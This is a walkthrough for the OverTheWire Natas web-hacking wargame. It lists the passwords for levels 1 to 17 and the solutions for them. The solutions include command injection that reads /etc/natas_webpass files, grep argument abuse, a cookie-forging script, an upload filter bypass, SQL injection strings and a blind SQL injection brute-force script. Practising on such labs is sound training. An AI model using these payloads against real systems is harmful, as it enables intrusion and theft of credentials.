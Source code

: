 # Overthewire - Natas

createdAt: "2018-02-26T13:42:55.141Z"

***Natas1**: gtVrDuiDfck831PqWsLEZy5gyDz1clto

Solution: View Source

**Natas2**: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi 
open developer bar or disable javascript

**Natas3**: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* View source
* There's a link to files/pixel.png
* Inspect   /files folder
* Password is in /files/users.txt

**Natas4**: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

View Source. Comment "Not even google will find it

Look @ robots.txt => open /s3cr3t => /s3cr3t/users.txt

**Natas5**: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Get an extension to spoof the referer HTTP header 
In firefox HTTPrequester works fine

**Natas6**: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

Find the cookie called loggedIn and change value to 1

**Natas7**: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

In the code of the page see, that code is included from

includes/secret.inc

Examine the response packet after from the GET includes/secret.inc
Secret = FOEIUWGHFEEUHOFUOIU

**Natas8**:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
The script calls include( $_GET["page"] ) 
A comment in the source says that the pass is stored @ /etc/natas_webpass/natas8
Call page with ?page=/etc/natas_webpass/natas8

**Natas9**: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
The code indicates that 

    $encodedSecret = "3d3d516343746d4d6d6c315669563362";
    function encodeSecret($secret) {
        return bin2hex(strrev(base64_encode($secret)));
    }
    
Which means our secret is oubWYf2kBq

    hex_to_ascii( invert_string( base64_decode ( "3d3d516343746d4d6d6c315669563362" )))

    
**Natas10**: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

The php executes the code:

    passthru("grep -i $key dictionary.txt");
    
Where `$key` comes from `$_GET["needle"]` which is the GET parameter from the textbox.

Just injecting the bash code ` ; cat /etc/natas_webpass/natas10;  ` yields the password


**Natas11**: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Same as level before except for the check:

    if(preg_match('/[;|&]/',$key)) 
    
Which disallows ; | and &  characters

Solution: exploit grep to print out the file 

    "a" /etc/natas_webpass/natas11  # Is empty
    -v "a" /etc/natas_webpass/natas11 # prints pass


**Natas12**: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

According to the php code, the program stores a json object in a cookie, but the JSON is base64-encoded and xor-encrypted with a key to be discovered

    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
    
This means the expected JSON object will be something of the sort:

    {showpassword:"no","bgcolor":"#ffffff"}

We are able to modify the bgcolor component of the array through the bgcolor GET parameter to any valid color of the form `#[a-f]{6}`

Then, the JSON object is xor encrypted and base64 encoded. For these colors, the cookie is: 

* \\#ffffff: ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhS **EV4sFxFeaAw=**
* \\#222222: ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhS **RQp4Q0UKaAw=**

Where the last characters putatively correspond to `ffffff"}` and `222222"}`

Transforming  `xor( 'ffffff"}' , base_decode("EV4sFxFeaAw=" )` yields us w8Jqw8Jq meaning 

Xor encryption key = "qw8J"

Craft new cookie - python3 code

```python
import base64
from itertools import cycle
cookie = base64.b64decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=")
decoded = []
for x,y in zip(cookie,cycle(bytes("qw8J","ascii"))):
    decoded.append( chr(x^y) )
print("".join(decoded))

#Craft new cookie
new_json = '{"showpassword":"yes","bgcolor":"#ffffff"}'
encoded = []
for x,y in zip(bytes(new_json,"ascii"),cycle(bytes("qw8J","ascii"))):
    encoded.append( chr(x^y) )

new_cookie = base64.b64encode(bytes("".join(encoded),"ascii"))
```

New crafted cookie:

JSON object: `'{"showpassword":"yes","bgcolor":"#ffffff"}'`
Value: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

Modify cookie, resubmit form !

**Natas13**: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

In the form, change the value of the field from "xxxx.jpg" to "xxx.php"
Then upload the following php file:
```php





```


**Natas14**:  Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

Same as before, but script does a check on the magic number with function  `exif_check`
To fool the check, add jpeg magic number to the first four bytes of the jpeg file

The natas13.php file is identifcal to the one needed to pass natas12,

```python
magic_number=bytes([0xff,0xd8,0xff,0xe0])

out_fh = open("natas13_mn.php","wb")
out_fh.write(magic_number)

in_fh = open("natas13.php","rb")
out_fh.write(in_fh.read())
out_fh.close()
```

**Natas15**: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

SQL injection in the password field:

`" OR "1"="1`
    
**Natas16**: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

The script is vulnerable to SQL injection, but no direct way of printing the password.

=> Blind SQL injection , aka using the if else statement in the code to bruteforce the password


```python
import requests

password=""
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
a_idx = 0
while len(password) < 32:
    if a_idx == len(alphabet):
        print("Something's wrong")
        break

    password_guess = password + alphabet[a_idx]
    #LIKE BINARY is used to make LIKE case sensitive
    r = requests.get('http://natas15.natas.labs.overthewire.org/index.php?username=natas16" AND password LIKE BINARY "{}%'.format(password_guess), auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))

    if "This user exists" in str(r.content):
        print(password_guess)
        password = password_guess
        a_idx = 0
    else:
        a_idx +=1
```

***Natas17***: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

Blind SQL injection using time delays to determine the true/false server response to queries
